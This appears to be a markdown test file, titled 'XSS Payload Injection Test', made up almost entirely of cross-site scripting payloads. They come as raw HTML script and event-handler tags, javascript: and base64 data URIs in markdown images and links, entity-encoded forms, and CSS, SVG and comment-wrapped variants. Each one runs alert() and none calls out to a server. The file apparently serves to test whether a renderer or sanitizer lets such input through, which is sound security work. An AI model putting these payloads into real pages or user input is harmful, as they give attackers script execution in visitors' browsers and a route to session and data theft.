 # 💥 XSS Payload Injection Test

A complete collection of possible XSS payloads, including raw HTML, encoded payloads, SVG vectors, and data URIs.

---

## 🔥 Raw HTML Payloads

<script>alert('XSS')</script>  
<iframe src="javascript:alert('XSS')"></iframe>  
<img src=x onerror=alert(1)>  
<body onload=alert(1)>   
<svg/onload=alert(1)>  
<marquee onstart=alert(1)>XSS</marquee>  
<video><source onerror="alert(1)"></video>  
<math><mtext><svg><animate attributeName="href" values="javascript:alert(1)" /></svg></mtext></math>  
<input autofocus onfocus=alert(1)>  
<textarea autofocus onfocus=alert(1)>test</textarea>  
<div onmouseover="alert(1)">Hover me</div>  
<details open ontoggle=alert(1)><summary>XSS</summary></details>  
<keygen autofocus onfocus=alert(1)>  
<object data="javascript:alert(1)">XSS</object>  
<embed src="data:text/html,<script>alert(1)</script>">  
<svg><script>alert(1)</script></svg>  
<svg><a xlink:href="javascript:alert(1)">X</a></svg>  

---

## 🖼️ Markdown Image-Based Payloads

![xss](javascript:alert(1))  
![xss](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+PC9zdmc+)  
![xss]("onerror='alert(1)'")  
![xss][1]  
[1]: javascript:alert(1)

---

## 🔗 Link Injection Payloads

[Click Here](javascript:alert(1))  
[Exploit](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)  
[SVG Click](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+PC9zdmc+)  

---

## 🎭 Encoded Payloads

<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>  
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>  
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert(1)>Click</a>  

---

## 🧪 CSS & Style-Based Payloads

<div style="background-image:url(javascript:alert(1))">XSS</div>  
<div style="animation-name:x;" onanimationstart="alert(1)">XSS</div>  

---

## 🧬 Event Attribute Payloads

<a href="#" onclick="alert(1)">Click</a>  
<button onclick=alert(1)>Click</button>  
<video autoplay onplay="alert(1)">  
<svg><g onload=alert(1)></g></svg>  
<iframe srcdoc="<script>alert(1)</script>"></iframe>  

---

## 🧨 Edge Case/Obscure Payloads

<input type="text" value="test" onblur="alert(1)" autofocus>  
<form><button formaction="javascript:alert(1)">Submit</button></form>  
<svg><foreignObject><iframe src="javascript:alert(1)"></iframe></foreignObject></svg>  
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">Encoded Link</a>  

---

## 💣 Comment Injection

<!-- <img src=x onerror=alert(1)> -->  
<!-- <script>alert(1)</script> -->  

---

## 🧱 Inside Code Blocks

```html
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<iframe src="javascript:alert('XSS')"></iframe>
